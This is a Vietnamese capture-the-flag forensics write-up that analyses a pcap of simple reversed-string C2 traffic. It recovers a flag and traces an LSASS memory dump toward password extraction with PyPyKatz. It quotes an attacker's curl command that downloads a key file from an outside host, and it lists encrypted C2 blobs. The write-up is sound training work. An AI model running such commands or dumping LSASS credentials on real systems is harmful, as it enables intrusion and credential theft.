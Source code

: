 ## Note :
- Tất cả challenge forensics giải tuyển thành viên Miền Bắc 2024 được lưu [tại đây](https://actvneduvn-my.sharepoint.com/:f:/g/personal/at20n0142_actvn_edu_vn/EppeMAGFR5lEjJyuKInvgLgB6tIqeiKToX9VCTycgP7pRw?e=7hpjJU) - Trừ bài RealTime

## Observation - Super weak c2 communication
### Description
- ![image](image/des1.png)
### Solution 
- Bài này cho chúng ta 1 file pcap. Mở file này với WireShark để tiến hành phân tích.
- ![jaja](image/1.png)
- Nhìn vào đây ta thấy hầu hết giao thức được sử dụng là giao thức TCP 
- Ta sẽ lọc các góc TCP ra để phân tích trước, theo dõi theo các luồng 
- ![âm](image/2.png)
- Nếu tinh ý ta có thể thấy đây là chuỗi `Administrator` và `1.whoami` bị lật ngược.
- Tương tự với stream 1
```
1. dir
evil.py  Important.txt	lsass.DMP
```
- Và ở stream 2 ta có flag
```
1.cat Important.txt

KCSC{s1mplY_Str1ng_R3v3rseD}
```

## Observation - Credentials
### Description 
- ![âmma](image/des2.png)
### Solution 
- Tiếp tục phân tích từ những stream TCP ở trước, ta lấy khi người dùng dùng lệnh dir có 1 file lsass.DMP. Cho ai chưa biết thì 
```tệp lsass.DMP là một bản ghi (dump file) của tiến trình LSASS (Local Security Authority Subsystem Service) trên hệ thống Windows. Tệp này chứa thông tin về các phiên làm việc, mã hóa và xác thực bảo mật của hệ thống, trong đó bao gồm cả thông tin nhạy cảm như hash mật khẩu, vé Kerberos, và các dữ liệu xác thực khác. ```
- Biết là như thế nhưng ta vẫn phải kiểm tra các luồng cho chắc 

- Luồng 3
```
1.echo "Hacked"
Hacked
```
- Luồng 4 
```
1.curl http://192.168.222.164:1337/key.txt -o key.txt
```
- Luồng 5: chứa dữ liệu của file lsass.DMP.
- Luồng 6: chứa dữ liệu file key.txt : zlMg5K3TobbFh_8l7doDT_408rH7Md_W3Oc1yKX1FrA=
- Luồng 7: 
`gAAAAABm3fyvSYv0L5_jUhYRbZIoEqu4wTUG7MowDa8fWuDjSNuactBTilQyF0X1IBYT21wBcdT1CbhpPt_R3PhZDDJzymJDfQ==
gAAAAABm3fyv6sf_nGEuWEQIJXKw0zaglNW2Q-XS0tWeAwwFNbcxVnsXXPFvo7RkEMMfJ5nkx0PpioYafdDZ3HM6oCYdHeXczw==` 
- Luồng 8: `gAAAAABm3fyz0IVjfY6h-fa2mKJptEVs7I2SjEZ8cFQSArPTiKAyAZ3_AvCEBw8HzmLBCFt6IMG9MYiqaUu2-KmUj9ld5IdZtX-lD8pIyIw76iYvA0Nr0AcwSVgZg_MX-bAaOfg9-V8D
gAAAAABm3fyzXrPS6uqlPN43UafqZXDDPJgWp5E_aEaduGuo5l1icUS0elmIc0YocpZ2J-QtWKZqC4K8bFTRiyoV4d4Fy1ZZY7EZcGJ9U5CB28wxkP9PCf258M781_5613ztO-DITpGc`
- Dữ liệu này mình chưa xác định được, có thể nó là 1 loại mã hoá gì đó .
- Tổng quan: Kẻ tấn công đã lợi dụng tệp dữ liệu chưuas thông tin xác thực lsass.DMP để đánh căos dữ liệu xác thực 
- Ta sẽ sử dụng PyPyKatz để dump mật khẩu xác thực ra
```